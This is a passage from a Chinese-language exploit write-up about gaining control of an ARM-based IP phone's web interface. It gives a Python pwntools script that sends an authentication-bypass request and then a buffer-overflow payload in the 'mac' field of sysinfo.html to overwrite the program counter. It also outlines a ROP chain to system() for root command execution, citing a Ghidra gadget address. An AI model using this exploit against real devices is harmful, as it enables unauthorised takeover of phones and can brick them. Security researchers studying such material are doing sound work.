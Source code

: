 alt text  
  
所以现在我们收集了我们最初的漏洞利用的解决方案，它覆盖了PC（ARM上的EIP），并证明了返回地址是可控的。  
```
from pwn import *
import requests
from urllib3.exceptions import InsecureRequestWarning

host = "https://192.168.1.101"

# Suppress the warnings from urllib3
requests.packages.urllib3.disable_warnings(
    category=InsecureRequestWarning
)

# Auth bypass request
print("[*] Sending auth bypass request")
r = requests.get(f"{host}/favicon.ico", verify=False)


payload = b""
payload += cyclic(300) # 300 junk padding
payload += p32(0x015b8008) # PTR in EXTERNAL segment that allows being freed
payload += cyclic(20) # padding
payload += p32(0x41424344) # Overwrite PC (EIP on arm)


data = {
    "mac": payload
}

print("[*] Sending exploit payload")

try:
    r = requests.post(
        "https://192.168.1.101/sysinfo.html",
        data=data,
        verify=False,
    )
except:
    print("[!] Payload crashed the phone")
```  
  
太棒了！我们成功控制了PC（EIP）。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yFBMSdZDRhMFulrFdiao7FDMMEQ2Yg8tABwleOl1dib8PIGrCD63E5MibcicaIdSgIzbicwtiaiaAVjzBAQA/640?wx_fmt=png&from=appmsg "")  
  
幸运的是，二进制文件崩溃后会重新启动，这意味着你可以测试尽可能多的次数。（但如果你不修复MAC地址，电话重启可能会变砖。）

现在我们已经解决了问题1，我们需要解决的问题2是：我们的ROP链给我们root权限。所以通常你会获得一个反向shell，或者尝试看看你是否可以写一些shellcode。我们想看看我们是否可以用r0指向我们的命令来触发一个system调用。这将给我们在设备上运行任意命令的全部可能性。再次深入研究GHIDRA，我们发现了一个非常有用的小工具。  
```
0001612c ff fc ff eb     bl         <EXTERNAL>::system  int system(char * __command)
```  
  